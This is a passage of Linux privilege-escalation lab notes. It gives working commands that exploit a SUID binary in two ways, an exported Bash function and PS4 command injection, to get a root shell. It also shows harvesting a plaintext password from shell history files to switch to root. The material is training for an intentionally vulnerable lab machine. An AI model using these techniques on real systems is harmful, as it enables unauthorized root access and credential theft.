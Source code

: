 
In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path. Verify the version of Bash: 

```/bin/bash --version```



Create a Bash function with the name "**/usr/sbin/service**" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
```console
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
Run the suid-env2 executable to gain a root shell: ```/usr/local/bin/suid-env2```
```console
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# 
```

# [Task 15] SUID / SGID Executables - Abusing Shell Features (#2)
**Note: This will not work on Bash versions 4.4 and above.**

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements. Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the **PS4** variable set to an embedded command which creates an SUID version of */bin/bash*: 


```env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2```


Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```/tmp/rootbash -p```

#  [Task 16] Passwords & Keys - History Files 
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.


to reading history file: ```cat ~/.*history | less```
```console
ls -al
mysql -h somehost.local -uroot -ppassword123
```
Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!


Switch to the root user, using the password: ```su root```
